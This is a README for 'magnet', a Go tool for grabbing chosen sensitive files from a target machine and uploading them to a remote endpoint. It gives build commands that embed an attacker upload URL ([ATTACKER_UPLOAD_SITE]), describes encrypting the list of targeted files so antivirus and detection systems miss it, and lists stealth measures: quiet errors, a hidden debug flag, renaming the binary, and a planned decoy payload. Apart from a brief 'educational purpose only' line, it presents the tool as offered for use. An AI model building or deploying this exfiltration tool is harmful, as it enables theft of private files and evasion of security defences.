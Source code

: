 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  <strong>Grab interesting files from remote</strong><br>
  The library is built to fetch predefined files of interest from a target devices. It assumes that an HTTP endpoint is listening when the program wise launched.

  <b><i>Cross-platform</i></b>
  <b><i>Stealth</i></b>
  <b><i>Portable</i></b>
  </pre>
</div>

*For educational purpose only or with prealable permission*

## Usage

### Inject `magnet` in your Go program

### Standalone

**At compilation time** you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`)

### Shorcut



To build `magnet` binary in one step:
```shell
make build.magnet.linux $FILE $ENDPOINT
# or build.magnet.windows or build.magnet.darwin
```

Then on target machine:
```shell
./magnet #or magnet.exe
```

### Compile on your own

The compilation line looks like this:
```shell
export FILES=$(cat samples/linux_juicy_files_obfuscated.txt)
export KEY=thisismykey 
export ENDPOINT=http://[ATTACKER_UPLOAD_SITE]
GOOS=linux GOARCH=amd64 go build -ldflags "-X 'main.FileList=$FILES' "-X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT'" magnet.go
```



### Obfuscation/Encryption

To avoid detection systems, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

To build the obfuscated list:
```shell
cat [FILE] | lobfuscator $KEY > obfuscated.txt
```

### Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario
  * rename `magnet` executable

## To do

* Include a fake payload that will also be run to fake an attacking scenario (example update, etc)
* Handle directories
